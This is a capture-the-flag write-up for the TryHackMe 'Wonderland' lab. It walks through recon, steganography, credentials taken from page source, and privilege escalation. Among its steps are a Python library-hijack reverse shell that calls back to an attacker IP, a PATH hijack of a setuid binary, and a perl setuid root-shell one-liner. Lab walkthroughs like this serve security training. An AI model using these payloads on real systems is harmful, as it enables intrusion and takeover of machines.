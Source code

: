 # TryHackMe - Wonderland

## Nmap

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=3/31%OT=22%CT=1%CU=39160%PV=Y%DS=4%DC=I%G=Y%TM=6245C38
OS:A%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10F%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST1
OS:1NW7%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 729.87 seconds
```

## Port 80

- Let's run Gobuster
```
┌──(root💀kali)-[~]
└─# gobuster dir -u http://10.10.229.155/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.229.155/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/03/31 11:22:01 Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 0] [--> img/]
/poem                 (Status: 301) [Size: 0] [--> poem/]
/r                    (Status: 301) [Size: 0] [--> r/]   
                                                         
===============================================================
2022/03/31 11:31:29 Finished
===============================================================
```
- On /poem we have The Jabberwocky poem  
![image](https://user-images.githubusercontent.com/96747355/161145799-79de6b1d-0d51-417c-94bd-9538e36b8b73.png)  
- On /r we have nothing interesting
- On /img there are some images
- Let's modify our /etc/hosts and add this `10.10.95.114 wonderland`
- Now we can use gobuster for subdomain enumeration as well (it does not five anything but it was worth a try)
- Let's have a closer look to the images.
- First lets take the rabbit one As it is written pretty much everywhere to follow the white rabbit.
```
┌──(root💀kali)-[~/Documents/tryhackme/wonderland]
└─# steghide --info white_rabbit_1.jpg         
"white_rabbit_1.jpg":
  format: jpeg
  capacity: 99.2 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "hint.txt":
    size: 22.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
```
- It asks for a passphrase but there is no need to enter anything you can just type enter.
- And we can see that a hint is embeded in the image, lets extract it ` steghide --extract -sf white_rabbit_1.jpg`sf will specify it is a stego file.
- Here is the hint
```
┌──(root💀kali)-[~/Documents/tryhackme/wonderland]
└─# cat hint.txt     
follow the r a b b i t                                                                                                                                                                                                               
```
In our gobuster there was an r directory. So this probably means that `r a b b i t` is a path that we need to **follow** 
- Indeed at each page we get the follow up fo the story `http://wonderland/r/a/b/b/i/t/`  
![image](https://user-images.githubusercontent.com/96747355/161146081-674e96f8-0d60-42e5-8a5c-e9511e534a20.png)  
- If we look at the code of the last page we get what seems to be user:pass:
```
alice:HowDothTheLittleCrocodileImproveHisShiningTail
```
- Let's try those on the ssh. It works:
```
alice@wonderland:~$ 
```
- If we check the hint for the user.txt it says everything is upside down so I tried to find a file called `txt.resu` but it was not it, then I realized as we have the root.txt in alice's folder maybe the user.txt is in a the root so I tried a `cat /root/user.txt` 
- And it worked!
- Let's try to become root

## Privilege Escalation

- If we sudo -l using alice password, we get htis
```
alice@wonderland:~$ sudo -l
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```
- If we l0ok at the python script it seems to show 10 of any sentence of the poem randomly
```
for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```
- Having the right to this specific file means that this the way to privesc.
- It seems like we could hijack the python library. I found [this really interesintg article that explains it pretty well](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8)
- So our walrus script uses the library random.py. I modified it like this to get a reverse shell and I launched it as the user rabbit this way: `sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`
```
#!/usr/bin/python3
from os import dup2
from subprocess import run
import socket
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.13.22.56",8888)) 
dup2(s.fileno(),0) 
dup2(s.fileno(),1) 
dup2(s.fileno(),2) 
run(["/bin/bash","-i"])
```
- And it works we have a shell as rabbit:  
![image](https://user-images.githubusercontent.com/96747355/161157090-1444f291-a4e1-4efc-8373-2706cd00e399.png)  
- With a shell as rabbit we can now have a look at their home folder and we can see this file called teaParty. If we use file on it we get this result:
```
file teaParty
teaParty: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=75a832557e341d3f65157c22fafd6d6ed7413474, not stripped
```
If we launch it it ends with a segfault
```
Probably by Thu, 31 Mar 2022 23:15:41 +0000

Welcome to the tea party!
The Mad Hatter will be here soon.
Ask very nicely, and I will give you some tea while you wait for him
Segmentation fault (core dumped)
```

- Let's take a look at it from our attacking machine as we do not have a the strings function in the target machine
- we can serve it using http server of python as it is installed in the machine `python3.6 -m http.server 8888`
- And we take it using wget  
![image](https://user-images.githubusercontent.com/96747355/161159311-d81208ba-f7c3-4003-88fc-6d4bf0fb104d.png)  
- When we look at it with strings we see this line:
```
/bin/echo -n 'Probably by ' && date --date='next hour' -R
```
- So date is invoked without using the full path, we could certainly abuse this by putting a file called date and make it do something for us.
- Let's just make it run bash using `/bin/bash`  
![image](https://user-images.githubusercontent.com/96747355/161160256-614b80cc-961a-4eaa-ac3d-bfedf16a90bf.png)  
- Now we serve it from our attacking machine with python and get it in our target
- We have to make it executable with `chmod +x`
- And we need to export rabbit's home as our path 
```
export PATH=/home/rabbit:$PATH
echo $PATH
/home/rabbit:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
```

- And now we can run our binary! And it works  
![image](https://user-images.githubusercontent.com/96747355/161160721-3ceaafc0-f471-4c8a-a62e-30df37f6233c.png)  
- We are the mad hatter!! If we go to his home directory we get his password `WhyIsARavenLikeAWritingDesk?` so we can connect as him using ssh:  
![image](https://user-images.githubusercontent.com/96747355/161160960-8886a779-8272-462f-b804-15015a358b5c.png)  

- There are no specific file that caught our attention and sudo -l does not list anything so let's get linepeas and check out what we could do.
- `wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas_linux_amd64` we run this in our attacking machine
- We serve it using python server `python3 -m http.server 80`
- We dowload it in our target `wget http://10.13.22.56/linpeas_linux_amd64`
- add it execution right with `chmod +x` and run it ./linpeas_linux_amd64
- We have a 95% PE vector:  
![image](https://user-images.githubusercontent.com/96747355/161161958-102231a7-45a4-4127-85ad-5d2851eef10f.png)  
- [This article](https://gtfobins.github.io/gtfobins/perl/#capabilities) shows us a way to abuse this I slightly modified the command to use bash instead of sh `perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'` and it works!  
![image](https://user-images.githubusercontent.com/96747355/161162600-29d8758f-f86a-44b6-a5ee-a591236ba6bb.png)  
- We are root and can read our last flag on alice's home!
